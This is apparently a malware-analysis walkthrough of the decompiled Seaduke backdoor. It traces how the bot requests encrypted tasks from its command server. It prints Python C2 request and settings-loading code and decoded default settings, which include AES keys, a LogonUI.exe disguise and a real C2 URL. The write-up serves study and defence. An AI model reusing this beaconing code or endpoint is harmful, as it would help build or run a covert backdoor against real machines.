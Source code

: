 # fetching instructions from the mothership
`main()` asks `networkHandleKlass` to get tasks:
```python
def main():
    ...
    networkTasks = networkHandleKlass.get_tasks()


class NetworkHandlerKlass(object):
    
    def get_tasks(self):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1476
        ...
        for _ in range(botKlass.total_hosts):
            for _ in range(botKlass.total_transports):
                for _ in range(3):
                    networkTasks=[]
                    try:
                        response_data = self.__send_request(id=botKlass.bot_id)  # bot_id is unique to bot, randomly generated
                        decoded_response = self.decode_data(response_data)  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQizDy renamed to decoded_response, decoced response is a dict
                        if not 'tasks' in decoded_response:
                            return []
                        decoded_tasks = decoded_response['tasks']
                        for networkTask in decoded_tasks:
                            if 'task_data' in networkTask and networkTask['task_data']:
                                networkTask['task_data'] = my_cryptoklass.decode_data(networkTask['task_data'])
                                networkTasks.append(networkTask)
                        botKlass.is_first_request = False
                        return networkTasks  # a list of dict
```
## request information from remote server
this is a critical part since it is where botKlass [requests and receives](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/url.md) instructions with `NetworkHandlerKlass.__send_request` method:
```python
class NetworkHandlerKlass(object):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1367
    ...
    def __send_request(self, **x):
        url = x.pop('url', self.url)  #  Syntax : dict.pop(key, def) Parameters : key : The key whose key-value pair has to be returned and removed. def : The default value to return if specified key is not present. 
        ...
        else:
            ...
            header = urllib2_build_opener()
            header.addheaders=[('User-agent', self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            ...
            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res, e)
        return res
```
### what is the `url`?
since `NetworkHandlerKlass` wasnt provided with an url, we rely on its url.
```python
class NetworkHandlerKlass(object):

    def __init__(self,**f):
        self.__url = f.get('url', None)

    @property
    def url(self):
        return self.__url if self.__url else botKlass.current_host
```
since `self.__url = None`, we look at `botKlass.current_host`s attribute:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
which means executing `self.__load_settings()`:
```python
class BotKlass(object):
    ...
    def __load_settings(self):
        settings_file_path = self.settings_file_path
        d = {}  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQeD replaced to d
        if not os_path.exists(settings_file_path):
            d = get_default_settings()
        else:
            try:
                with open(settings_file_path,'rb')as settings_file:
                    bot_settings = get_default_settings()
                    v_crypto_aes_key = bot_settings['keys']['aes']
                    v_crypto_aes_iv = bot_settings['keys']['aes_iv']
                    c = CryptoKlass(v_crypto_aes_key,v_crypto_aes_iv)
                    k = c.decrypt(settings_file.read())
                    d = json_loads(k)
            except Exception as e:
                pass
                os_remove(settings_file_path)
                d = get_default_settings()
        return d
```
this calls the following for `settings_file_path`, which [creates a file path](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/save.md) based on the bot's `key_id` (the key_id is defined in `bot_settings`):
```python
class BotKlass(object):
    ...
    @property
    def settings_file_path(self):
        key_id = get_default_settings()['key_id']  # hardcoded as P4BNZR0
        if v_sys_platform.startswith('win'):
            w ='tmp' + key_id.lower()
        else:
            w ='.'+key_id
        y = tempfile_gettempdir()
        if v_sys_platform.startswith('win'):
            z=ctypes.windll.shell32.SHGetFolderPathW
            z.argtypes=[ctypes.wintypes.HWND,ctypes.c_int,ctypes.wintypes.HANDLE,ctypes.wintypes.DWORD,ctypes.wintypes.LPCWSTR]
            a=ctypes.wintypes.create_unicode_buffer(ctypes.wintypes.MAX_PATH)
            z(0,0x1C,0,0,a)
            y=a.value
        return os_path.join(y, w)
```
which calls `get_default_settings()`, which returns a [dict called `bot_settings`](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md):
```python
bot_settings=json_loads(zlib_decompress(base64_b64decode('sxxxxx')))

def get_default_settings():
    return bot_settings
```
if we look at the dict `bot_settings` we see the following (for an [in-depth look](https://github.com/mynameisvinn/Seaduke/blob/master/chapters/bot_settings.md):
```python
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
since we were interested in `host_scripts`:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
we now know `url` points to http://monitor.syn.cn/rss.php.

## we have the url, now what?
as a reminder, we were evaluating `self.__send_request()`:
```python
class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
		response_data=self.__send_request(id=botKlass.bot_id)
        ...

    def __send_request(self, **x):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
        ...
        else:
            pass
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res,e)
        return res
```
when we ask `NetworkHandlerKlass` to `__send_request`, it will receive data from http://monitor.syn.cn/rss.php.

